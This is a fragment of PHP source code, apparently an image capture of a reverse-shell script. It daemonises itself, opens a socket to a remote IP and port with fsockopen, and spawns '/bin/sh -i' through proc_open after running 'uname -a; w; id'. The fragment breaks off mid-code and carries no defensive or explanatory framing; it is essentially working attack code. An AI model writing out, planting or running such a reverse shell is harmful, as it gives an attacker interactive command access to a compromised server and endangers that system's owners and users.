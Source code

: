 ```php
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
```